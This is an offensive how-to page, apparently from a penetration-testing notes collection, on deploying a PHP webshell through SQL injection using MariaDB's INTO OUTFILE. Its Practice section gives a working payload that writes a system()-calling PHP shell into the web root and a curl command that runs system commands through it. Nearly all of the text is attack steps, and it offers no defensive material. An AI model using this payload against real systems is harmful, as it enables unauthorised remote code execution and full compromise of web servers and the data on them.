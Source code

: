 ```yaml
---
title: 'Webshell OUTFILE Exploit: Deploying PHP Shell via SQL Injection'
description: Learn to exploit MariaDB OUTFILE to deploy PHP webshell for remote code
  execution.
keywords:
- MariaDB OUTFILE
- PHP webshell
- remote code execution
- SQL injection
- file system permissions
- web server security
- INTO OUTFILE
- command execution
- web application security
---
```


# WEBSHELL - OUTFILE

## Context

This guide focuses on exploiting MariaDB's OUTFILE feature to deploy a PHP webshell capable of remote code execution. This technique assumes you have knowledge of file system permissions, PHP execution, and prior experience with MariaDB command execution.

## Theory

### OUTFILE Functionality in MariaDB

The OUTFILE feature in MariaDB allows you to write the results of a query to a file on the server. This capability can be exploited when SQL injection is possible, and the file system permissions allow writing. This method is viable in systems where web application security is lax, allowing an attacker to execute unintended SQL commands through injection.

### PHP Webshell Basics

A PHP webshell is a script that can execute system commands via a web interface. It is often used by attackers to gain remote access to a compromised server. The attack involves injecting PHP code into a file that can be accessed by the web server, thus allowing remote command execution.

### File System Permissions and Security

For the OUTFILE exploitation to succeed, the web server must have write permissions to the directory targeted for the webshell deployment. This scenario assumes that the attacker can write to web-accessible directories due to misconfigured permissions or vulnerabilities in the web application or the underlying server security policies.

## Practice

### Deploying a PHP Webshell via OUTFILE

#### Steps

1. **Inject PHP Shell Code**
   
   Begin by executing a command to inject simple PHP shell code into a file within the web server's document root. 

   ```bash
   SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
   ```

   This command uses the MariaDB OUTFILE option to write a PHP script that takes a command parameter (`cmd`) from the URL query string and executes it.

2. **Validate Webshell Functionality**

   Once the shell is in place, validate its functionality by executing a system command through the webshell. This can be done via a command-line HTTP client like `curl`.

   ```bash
   curl http://target/shell.php?cmd=id
   ```

   Use this command to confirm remote access by displaying the current user ID on the server. If successful, it indicates that the webshell is operational and can execute system commands.

#### Outcome

By following these steps, you achieve remote code execution capabilities on the web server through the deployed PHP webshell. This technique allows an attacker to perform various high-privilege operations on the server, limited only by the permissions of the web server's execution environment.

## Tools

- **curl**: A command-line tool used for transferring data with URLs, which can be used to interact with the webshell and execute commands remotely.